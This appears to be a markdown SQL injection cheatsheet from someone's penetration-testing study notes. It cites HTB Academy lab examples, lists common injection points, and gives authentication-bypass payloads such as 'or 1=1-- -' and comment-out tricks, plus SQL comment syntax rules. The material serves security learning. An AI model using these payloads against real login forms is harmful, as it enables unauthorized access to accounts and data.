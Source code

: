 # SQL Injection Cheatsheet

## Overview
SQL injection occurs when user input is not properly sanitized and is directly concatenated into SQL queries. This allows attackers to manipulate database queries and potentially extract data, bypass authentication, or execute commands.

**Common Injection Points:**
- Login forms (username/password fields)
- Search parameters  
- URL parameters
- HTTP headers (User-Agent, X-Forwarded-For)
- JSON/XML parameters

---

## Authentication Bypass

### Basic Auth Bypass
```sql
-- Username field payloads
admin' or '1'='1'-- -
admin' or 1=1-- -
admin'/**/or/**/1=1-- -
admin' or 'x'='x'-- -

-- Simple comment-out approach (HTB Academy example)
tom'; -- -

-- OR logic bypass approach (HTB Academy example)  
tom' OR '1' = '1' -- -

-- Password field (when username is known)
anything' or '1'='1'-- -
```

### SQL Comments Deep Dive

#### Comment Syntax Rules
```sql
-- Double dash comments (MySQL/SQL Server/Oracle)
-- IMPORTANT: Space required after --
-- ✅ CORRECT: admin'-- -  (note the space!)
-- ❌ WRONG:   admin'--    (no space - won't work!)

-- Hash comments (MySQL only)
admin'#
-- URL encoded: admin'%23 (# becomes %23 in URLs)

-- Inline comments (MySQL)
admin'/*comment*/password
```
